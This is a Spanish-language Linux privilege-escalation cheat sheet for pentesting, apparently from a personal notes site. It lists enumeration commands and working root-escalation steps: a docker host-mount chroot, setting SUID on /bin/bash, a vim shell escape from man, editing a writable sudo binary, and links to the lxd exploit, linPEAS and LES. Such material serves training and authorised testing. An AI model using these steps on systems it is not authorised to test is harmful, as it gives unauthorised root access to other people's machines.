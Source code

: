 ```yaml
---
title: "Escalada Privilegios"
layout: "single"
category: "Linux Pentesting"
slug: "linux-pentesting/escalada-privilegios"
date: "2025-09-30"
---
```


### Primeras comprobaciones
```bash
#### Grupos de usuario
###Ver si esta el usuario en algun grupo interesante, como el de docker
id

#### Ejecución de tareas como root
sudo -l

#### Permisos SUID, GUID y Binarios SH
find / -perm -4000 2>/dev/null
find / -perm -2000 2>/dev/null
find / -name *.sh
find / -name *.py
#### Versión de sudo
### teniendo la version de sudo se puede buscar alguna vulnerabilidad
sudo -V

#### Version del S.O
lsb_release -a

#### Version de kernel
uname -r

#### Listar tareas cron
ps -aux | grep cron
cat /etc/crontab
cat /etc/cron.d
crontab -l

#### Comprobar grupos
### A veces nuestro usuario no tiene privilegios, pero si el grupo al que pertenece.
id
find / -group "grupo"  -ls 2>/dev/null

###
Si pertenecemos al grupo pcap, mirar el apartado de "Wireshark" en la web
Si pertenecemos a un grupo que pueda ejecutar python, y encontramos un .py editable, podemos escalar facilmente.

#### Buscar capturas de wireshark
find / -name *.pcap* 2>/dev/null

#### Mirar las variables de entorno
### En ocasiones podemos encontrar credenciales, o aprovechar para ver si hay algo raro en el path
env

#### Comprobar el historial
history

cat $HOME/.bash_history

#### Comprobar servicios locales
### En ocasiones tenemos servicios como Mysql o algun panel de admin que solo funciona desde la máquina local, hay 2 maneras:
netstat -tuln
ss -tuln

### Capabilities
getcap -r / 2>/dev/null

### Mirar directorio opt
ls -la /opt

#TIPS
Mirar en /opt
Mirar si hubiera credenciales de root en ficheros de conexion a bases de datos, en caso de tener una web.
Mirar /home de usuarios
Mirar /etc/passwd para descubrir usuarios
Mirar binarios interesantes y si es necesario descompilar con ghidra

 SI NADA DE LO DE ARRIBA FUNCIONA, MIRAR RESTO DE SECCIONES DE HACKING LINUX
```

### Docker
Pudiendo ejecutar docker sin ser root, se puede escalar privilegios y montar el sistema de ficheros de la maquina real en el contenedor de forma que podremos acceder a todo.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

>NOTA
>Seremos root en el contenedor, no en la máquina. Pero podremos acceder a todo el sistema de ficheros, una vez hecho esto:

```bash
chmod u+s /bin/bash
bash -p
```

### Binario con permisos de edición y ejecución

Con sudo -l vemos que se puede ejecutar como root, sus permisos nos deja editar el fichero, algo así ==rwxrwxrwx==. editamos dicho binario y le metemos el comando==su -==.


### Pivoting / escalada privilegios con man
Tanto escalada como pivoting, si podemos ejecutar un binario como otro usuario (Sudo -L), y este binario tiene un manual, este se nos abre con vim. Lo que ocurre es que vim tiene un modo de comandos, en el que facilmente podemos hacer un:
```bash
!/bin/bash
```

y nos lanzamos una bash como ese usuario con el que ejecutamos el binario.
```bash
sudo -u usuario /bin/binario
```

### Vulnerabilidad lxd
si el usuario pertenede al grupo lxd, (comprobar con comando id), existe un exploit para escalar privilegios a root.
https://github.com/initstring/lxd_root

### Herramientas automatizadas escalada privilegios

#### LES (Linux exploit suggester)
[Linux Exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
Herramienta que busca vulnerabilidades a nivel de kernel de linux

#### linPEAS
[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
Herramienta que busca posibles malas configuraciones en la maquina para intentar escalar privilegios

### Pspy
[Pspy](https://github.com/DominicBreuker/pspy)
Herramienta para monitorizar tareas cron
<a href="https://glmbxecurity.github.io/docs/5-hacking-linux/path-hijacking/"></a>
### Linux exploit suggester (Kernel exploits)
Automatizacion para tratar de buscar vulnerabilidades a nivel de kernel y más,
[Linux exploit suggester V1](https://github.com/The-Z-Labs/linux-exploit-suggester)
[Linux exploit suggester V2](https://github.com/jondonas/linux-exploit-suggester-2)




